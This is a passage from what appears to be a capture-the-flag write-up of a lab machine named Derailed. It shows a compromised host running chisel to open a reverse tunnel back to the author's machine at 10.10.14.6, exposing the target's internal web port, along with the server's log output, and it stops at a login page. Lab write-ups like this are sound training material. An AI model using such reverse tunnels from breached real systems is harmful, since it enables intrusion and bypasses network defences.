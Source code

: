     2023-07-20 13:37:33 (7.51 MB/s) - ‘chisel_1.8.1_linux_amd64’ saved [8384512/8384512]



I'll start the server on my VM, and connect back to it:



    openmediavault-webgui@derailed:/dev/shm$ ./chisel_1.8.1_linux_amd64 client 10.10.14.6:8000 R:8888:localhost:80



There's a connection at the server:



    oxdf@hacky$ /opt/chisel/chisel_1.8.1_linux_amd64 server -p 8000 --reverse
    2023/07/20 13:38:55 server: Reverse tunnelling enabled
    2023/07/20 13:38:55 server: Fingerprint n5R2RuOcas6QYwllUlfejsAp9f8gSraEP+btjjdE8dM=
    2023/07/20 13:38:55 server: Listening on http://0.0.0.0:8000
    2023/07/20 13:39:21 server: session#1: tun: proxy#R:8888=>localhost:80: Listening



Now I have a tunnel from 8888 on my host to 80 on Derailed.

#### Get Logged In

The page presents a login:
